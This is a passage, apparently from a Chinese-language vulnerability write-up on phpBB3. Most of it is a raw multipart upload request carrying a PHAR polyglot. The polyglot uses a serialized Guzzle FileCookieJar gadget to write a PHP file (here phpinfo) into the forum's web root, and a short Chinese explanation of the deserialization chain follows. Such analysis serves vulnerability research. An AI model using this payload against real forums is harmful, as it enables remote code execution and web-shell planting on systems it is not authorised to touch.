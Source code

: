     ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="name"

    rai4over.zip
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="chunk"

    0
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="chunks"

    3
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="add_file"

    Add the file
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="real_filename"

    payload.phar.zip
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="attachment_data[0][attach_id]"

    16
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="attachment_data[0][is_orphan]"

    1
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="attachment_data[0][real_filename]"

    payload.zip
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="attachment_data[0][attach_comment]"


    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="attachment_data[0][filesize]"

    35802
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Content-Disposition: form-data; name="fileupload"; filename="payload.phar.zip"
    Content-Type: application/zip

    <?php __HALT_COMPILER(); ?>
    ÕO:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";s:42:"/Applications/MAMP/htdocs/phpBB3/shell.php";s:52:"GuzzleHttp\Cookie\FileCookieJarstoreSessionCookies";b:1;s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:18:"<?php phpinfo();?>";}}}s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;}test.txtöì\~Ø¶test¨~ê÷z]©äg­4GBMB
    ------WebKitFormBoundaryuHMhmTMPyBMwbiEg--

至此我们已经对上传文件路径内容可知可控，还恶意文件中的利用链。

### 利用链

利用PHP网络请求插件Guzzle完成反序列化利用。
